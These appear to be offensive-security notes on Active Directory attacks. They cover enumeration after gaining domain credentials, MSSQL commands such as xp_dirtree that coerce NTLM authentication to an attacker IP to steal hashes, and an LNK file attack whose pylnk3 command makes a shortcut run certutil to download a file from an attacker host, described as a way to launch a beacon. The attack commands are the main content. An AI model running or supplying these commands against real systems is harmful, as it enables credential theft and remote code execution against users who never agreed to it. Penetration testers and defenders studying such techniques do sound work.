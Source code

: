 
Having domain credentials opens up a whole new world of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts




## Steal NTLM hash 

```MSSQL
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

SELECT * FROM sys.dm_os_file_exists('\\10.8.0.148\re\con');
```

## LNK File Attack 

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !

```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```
